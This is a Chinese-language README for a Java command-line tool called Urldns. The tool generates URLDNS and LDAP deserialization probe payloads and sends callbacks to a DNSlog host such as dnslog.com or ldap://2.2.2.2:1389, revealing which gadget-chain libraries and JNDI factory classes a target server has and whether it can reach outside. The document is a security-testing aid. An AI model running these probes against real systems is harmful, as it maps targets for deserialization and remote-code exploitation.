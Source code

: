 # Urldns
此工具仅能dnslog漏洞测试，不可用于非法用途，有问题请联系sonomon@126.com  

有三种模式，base64，file，ldap，file默认当前目录生成文件1.ser，ldap默认端口1389  
请输入: java -jar Urldns.jar base64 all dnslog.com  
或者   : java -jar Urldns.jar file all dnslog.com  
或者   : java -jar Urldns.jar ldap all dnslog.com  

目前支持的内置探测类如下，使用all将全部探测，可以将all替换为如下简写进行单独探测，也可以填写自定义的类进行探测。如果想同时探测多个类，用|分割。
`
CommonsCollections13567  
CommonsCollections24  
CommonsBeanutils2  
C3P0  
AspectJWeaver  
bsh  
Groovy  
Becl  
Jdk7u21  
winlinux  
`

使用ldap模式的all将额外探测如下  
`
javax.el.ELProcessor  
org.apache.naming.factory.BeanFactory  
groovy.lang.GroovyShell  
groovy.lang.GroovyClassLoader  
org.yaml.snakeyaml.Yaml  
com.thoughtworks.xstream.XStream  
org.mvel2.sh.ShellSession  
org.apache.catalina.UserDatabase  
org.apache.catalina.users.MemoryUserDatabaseFactory  
org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory  
org.apache.tomcat.dbcp.dbcp.BasicDataSourceFactory  
org.apache.commons.dbcp2.BasicDataSourceFactory  
org.apache.commons.dbcp.BasicDataSourceFactory  
org.apache.tomcat.jdbc.pool.DataSourceFactory  
com.alibaba.druid.pool.DruidDataSourceFactory  
`

示例: java -jar Urldns.jar base64 "CommonsBeanutils2|C3P0|ognl.OgnlContext" dnslog.com

ldap模式支持ldap://2.2.2.2:1389/jndi，将不再反序列化而是远程加载class，以探测是否出网
